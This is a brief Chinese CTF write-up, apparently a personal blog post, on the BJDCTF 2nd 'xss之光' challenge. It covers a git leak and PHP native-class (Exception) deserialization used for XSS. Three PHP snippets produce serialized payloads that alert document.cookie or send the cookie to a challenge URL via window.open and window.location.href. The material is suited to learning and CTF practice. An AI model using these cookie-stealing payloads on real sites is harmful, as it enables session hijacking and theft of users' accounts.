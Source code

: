 ```yaml
---
title: BJDCTF 2nd xss之光
date: 2021-04-01 15:52:48
tags: wp

---
```

## '-'-'
![](https://ftp.bmp.ovh/imgs/2021/04/6b7c495f5410b55c.png) 
打开就个这    
其他什么也没     
dirsearch扫的话会429，加-s还是会429？？？      
看了WP是git泄露        
githack一下
![](https://ftp.bmp.ovh/imgs/2021/04/92d01a33b6c1a59a.png) 
![](https://ftp.bmp.ovh/imgs/2021/04/15257587e78dc396.png) 
就这？？      
没类？？     

用原生类---[Exception](https://www.php.net/manual/zh/class.exception.php)---所有异常的基类     

然后弹cookie    



	```php
	<?php
	$a=new Exception("<script>alert(document.cookie)</script>");
	echo urlencode(serialize($a));
	
	?> 
	```



`window.open`----->打开新窗口     



	```php
	<?php
	$a=new Exception("<script>window.open('http://cfde3d9f-8b17-4812-8626-a978cefef14d.node3.buuoj.cn/'+document.cookie);</script>");
	echo urlencode(serialize($a));
	
	?> 
	```



`window.location.href='url'`---->实现恶意跳转       




	```php
	<?php
	$a=new Exception("<script>window.location.href='http://cfde3d9f-8b17-4812-8626-a978cefef14d.node3.buuoj.cn/'+document.cookie</script>");
	echo urlencode(serialize($a));
	
	?> 
	```



## 芝士·      
[利用php的原生类进行XSS](https://blog.csdn.net/qq_45521281/article/details/105812056)


